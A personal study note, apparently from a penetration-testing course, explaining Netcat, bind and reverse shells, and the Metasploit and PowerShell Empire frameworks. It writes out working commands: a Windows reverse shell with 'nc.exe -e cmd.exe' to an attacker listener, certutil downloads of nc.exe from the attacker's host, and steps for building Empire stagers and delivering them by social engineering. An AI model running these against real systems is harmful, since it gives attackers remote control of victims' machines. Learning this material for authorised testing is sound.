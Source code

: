   

### ==_**Bind & Reverse Shells**_==

  

- ==_Netcat Fundamentals_==

> _Netcat (Aka TCP/IP Swiss Army Knife )_ ⇒ is a networking utility used to read and write data to network connections using TCP or UDP .

> Netcat utilizes a client-server communication architecture with tow modules :
> 
> - ==_Client mode_== ⇒ Netcat can be used in client mode to connect to any TCP/IP Port as well as a Netcat listener (server) . `( Connect mode)`
> - ==_server mode_== ⇒ Netcat can be used to listen for connections from clients on a specific port . `(Listen mode )`

> Can be used to ⇒ ==Banner Grabbing== , ==Port Scanning== , ==Transferring Files== , ==Bind/Revers Shells==

  

- Netcat Fundamentals ( imp)
    
    - `nc - -help`
    
    > lets assume that we have target machine which is have we server running on it
    
    - `nc -nv < target ip > < port >` ⇒ that will let us ==_open a client mode , so we connected to the target machine on port_== , -nv ⇒ to disable the dns resolve and set a verbose mode true .
    
    > Maybe on some case we have a firewall in place that’s proxying or filtering our try to connect
    
    - `nc -nvu < target ip > < port >` ⇒ same , but here we try to connect through UDP
    
    > the windows lab env dose not have the netcat on it so we will transfer the executable file of netcat to windows
    
    - `ls -al /use/share/windows-binaries/` ⇒ that’s will list all files we need on windows machine
    
    > we can transfer file using 2 way , webserver || Netcat :
    > 
    > - ==_Transfer file using web server_==
    >     
    >     1. on Linux ⇒`cd /usr/share/windows-binners` && `python3 -m http.server`
    >     2. on windows ⇒ `cd Desktop` && `certutil -urlcache -f http:<ourip>/nc.exe nc.exe`
    >     
    >       
    >     
    >       
    >     
    
    - _On Linux_ => `nc -nvlp 1234` ⇒ to open a listen on port 1234 , so u can connect to the Linux , from windows (server mode ) ( open a listener and wait the clients to connect )
    - On Windows ⇒ `nc.exe -nv <Linux ip (our ip) <port> 1234` ⇒ that will create a connection between a Linux and windows
    
    > U can send massage between the tow machine , just write what u want and that will transfer
    
    - ==_When we want to transfer file remember , the machine want to receive a file need to set up a listener && the machine want to send the file need to connect to this machine to send the file_==
    - On Windows ⇒ `nc -nvlp 1234 >test.txt` ⇒ so here we set up a listener on windows to receive file from Linux , `> test.txt` **_( to save everything we receive from linux to file called test.txt )_**
    - On Linux ⇒ `nc -nv <windows ip > 1234 < test.txt` ⇒ so here we connect to windows listener , the `< test.txt` that the file we need to send to the windows machine .
    
      
    
      
    

  

  

- ==**_Bind Shell_**==

> _Bind shell_ ⇒ is a type of remote shell where the attacker connects directly to a listener on the target system . consequently allowing for execution of a command on the target system .

> why reverse shell better than bind shell ? On bind shell to do that we need to set up a listener on the target system so how we can do that when we dose not have access to the target system , The traffic when u connect or to execute a command on target the traffic will go through the firewall which is will blocked it when triggered it . On the other side the revers shell , we don’t need to set up the listener on the target system , the listener will setting up on our machine and the target will connect with our listener .

- _Bind Shell_
    
    - `cd /usr/share/windows-binaries` && `python3 -m http.server 80` ⇒ to navigate the netcat execution file , and open python server to transfer the file to the target machine (windows machine )
    - On Windows ⇒ `certutil -urlcache -f http:<ourip>/nc.exe nc.exe`
    - On Windows ⇒ `nc.exe -nvlp 1234 -e cmd.exe` ⇒ so here we open a listener on target machine , the `-e cmd.exe` will allow any client will connect to our listener to can run any command on our machine
    - On Linux ⇒ `nc -nv <windows ip> 1234` ⇒ so here we connect with windows machine listener so when we connect we can see we receive a bind shell , so we can run any command we want on the target system
    
    > if we want to flip the process we just modify the `-e cmd.exe` ⇒ `-c /bin/bash`
    
      
    

  

  

- ==**_Reverse shell_**==

> Reverse shell ⇒ is a type of remote shell where the target connects directly to a listener on the attacker system . consequently allowing for execution of a command on the target system . ( reverse of the bind process ) .

> The key thing in reverse shell u want is a connection being made from the target system to the listener .

- Reverse Shell
    
    - On Linux ⇒ `nc -nvlp 1234` ⇒ to open a listener on our attack machine
    - On Windows ⇒ `nc.exe -nv <Linux ip > 1234 -e cmd.exe` ⇒ to connect from windows to the linux machine listener and execute the cmd.exe
    - on Linux ⇒ we can see we have received the reverse shell from the windows machine
    
      
    
      
    

  

  

- ==**_Reverse Shell Cheatsheet_**==

> one of the greatest thing of reverse shell is that we don’t need to init a nc to do a reverse shell , we can do that by PowerShell code , CMD code , python code .. etc.

- Reverse Shell Cheatsheet
    
    - **==_PayloadAllTheThings ⇒_==** u can see a lot of codes to obtain a reverse shell using a lot of types of code
    
    > U just need to execute the code manually by physically accessing the system or through social engineering … etc. usually this code will be a part of exploit so when the exploit execution on target the reverse shell will open automatically
    
      
    
    - ==**_Reverse Shell Generator_**== ⇒ just enter your linux ip and the port of the listener && select the type of the listener u want && select the OS and the type of payload u want
    
    > just copy the payload && open a listener on your linux machine && just u need to let the target to run the payload on PowerShell , CMD …. etc. then if we back to our linux we will see that we get a reverse shell :)
    

  

  

### _**Frameworks**_

  

💡

_==Exploitation Frameworks==_

  

- ==The Metasploit Framework (MSF)==

> Metasploit framework ⇒ is open source , robust penetration testing and exploitation framework that is used by penetration tester and security researchers worldwide .

> Provide penetration testers with a robust infrastructure required to automate every stage of the penetration testing life cycle .

> If u delaying with a web page , like CMS ( WordPress , Drupal ⇒ try to search what is the default crad of this CMS and try it maybe in some case that’s work

> The Metasploit Modules developed by ruby

  

- ==_PowerShell-Empire_==

> _PowerShell Empire_ ⇒ is a pure PowerShell exploitation/post-exploitation framework built on cryptologic-secure communication and flexible architecture

> more useful with red teaming

> Designed specifically to windows target

- _PowerShell Empire_
    
    - `sudo apt-get install powershell-empire starkiller -y`
    
    > First u should run the empire server , is responsible for setup a listener , receive the call back from agency … it worked on background
    
    - `sudo powershell-empire server`
    - `sudo powershell-empire client`
    - `listeners` ⇒ to list all listeners && `agents` ⇒ to list all targets
    - now from the top lift of linux on start tab ⇒ search for starkiller && u can see the starkiller open
    
    > so starkiller is frontend version of powershell empire , so used to interact with clients (targets ) and to interact with servers
    
    - enter the> `username:empireadmin && password:password123`
    
    > explore it , u can see the many tabs , u have 3 plugins , C\#server ⇒ empire servers for agents , used to compile stages with C# for target , websocketfiy ⇒ to interact with sockets … etc , reversshell-stages ⇒ to interact with the reversshell like msfvenom stages
    
    - ==_listeners tabs_== ⇒ that is a listeners that are going- to essentially listen for connections from your target systems && ==stages tab== ⇒ is the pieces of code or the executable code that u need to run on target system through social eng or … etc . && ==agents tab== ⇒ here u can see the target system u are hacked them and the stages run on it
    - First we need to set up a listener to receive connection from the target system ⇒ `click on listener tab` && `click create` && `select http listener` && `set the options`
    - second we need to make a stages ⇒ `click on stages tab` && `click create` && `select type < regarding to your target system` && `enter the name of listener (http)` && `modify the stage name` && `Download it on your linux`
    - ==now we need to transfer the stage.exe to the target system , as u know that can be done using a social Eng. , physical access … etc.==
    - when we do that , we will see the info related to the target system display on the Agents tab
    - u can see on agents tab when u `click on target` , `u can run command` && `see the all file on target system`
    - on powershell-empire u can see new listener created and new agent added ⇒ `interact <target system name >` ⇒ that will display all command that’s run on target system